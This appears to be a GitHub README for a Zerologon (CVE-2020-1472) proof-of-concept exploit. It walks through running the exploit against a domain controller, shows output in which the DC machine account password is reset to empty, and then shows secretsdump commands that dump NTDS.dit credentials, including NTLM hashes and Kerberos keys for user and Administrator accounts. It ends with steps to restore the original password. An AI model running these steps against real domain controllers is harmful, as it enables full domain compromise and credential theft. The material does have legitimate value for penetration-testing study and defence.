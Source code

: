 # CVE-2020-1472 - Zero-Logon POC

![alt text](https://github.com/harshil-shah004/zerologon-CVE-2020-1472/blob/master/PoC%20-%20CVE-2020-1472.png)

This exploit requires you to use the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket).

Ensure impacket installation is done with netlogon structures added.

Note : 

1. By default, successful exploitation changes the password of the DC Account. 

2. Allows DCSync

3. Breaks communication with other domain controllers (Be careful!)

Original Research & information [here](https://www.secura.com/blog/zero-logon)

## Installation

Requires Python 3.7 or higher and Pip. Install dependencies as follows:

    pip install -r requirements.txt

<p align='center'>
  <img src='./Screenshots/install-req.png' alt="HTB">
</p>
    
## Before Zerologon 

<p align='center'>
  <img src='./Screenshots/before-zerologon.png alt="HTB">
</p>
Unable to dump secrets!

## Performing Zerologon Attack!

huyqa@bananoname-pc:~/Music/zerologon-CVE-2020-1472$ python3 zero-logon-exploit.py AD-SRV 192.168.56.129
Performing authentication attempts...
==================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!

<p align='center'>
  <img src='./Screenshots/Screenshot from 2023-12-28 15-35-49.png' alt="HTB">
</p>

## After Zerologon
huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user huyqa
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
huyqa.local\huyqa:1103:aad3b435b51404eeaad3b435b51404ee:fcf2d6f9c8a83291396a6555f182b8a7:::
[*] Kerberos keys grabbed
huyqa.local\huyqa:aes256-cts-hmac-sha1-96:bb6c792161d04c880b999be788354b1d78eb9eea90e6cf9cb5370e62f67ed46f
huyqa.local\huyqa:aes128-cts-hmac-sha1-96:2f1a2be83abed0d24481afdf59f1a830
huyqa.local\huyqa:des-cbc-md5:624aa89132f4987f
[*] Cleaning up... 
huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d4ff5ed8d5357d3d073e34023e24c48:::
[*] Cleaning up... 

<p align='center'>
  <img src='./Screenshots/after-zerologon1.png' alt="HTB">
</p>
Successfully dumped NTDS.dit secrets!

## Exploit Steps
- Read the related articles/blogs/whitepapers to know the objective of the exploit
- Run `python3 zero-logon-exploit.py` with IP and netbios name of DC
- DCSync with secretsdump, using `-just-dc` and `-no-pass` or empty hashes and the `DCHOSTNAME$` account


## Restore steps
If you make sure that [this line](https://github.com/SecureAuthCorp/impacket/blob/64ce46580286b5ab15a4737bddf85201ce2adde3/impacket/examples/secretsdump.py#L1530) in secretsdump passes (so make it `if True:` for example) secretsdump will also dump the plaintext (hex encoded) machine account password from the registry. You can do this by running it against the same DC and using a DA account.

Alternatively you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes, this saves you modifying the library).

With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target, so for example:

```
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

Credits for Exploit Provision : [dirkjanm](https://github.com/dirkjanm) 
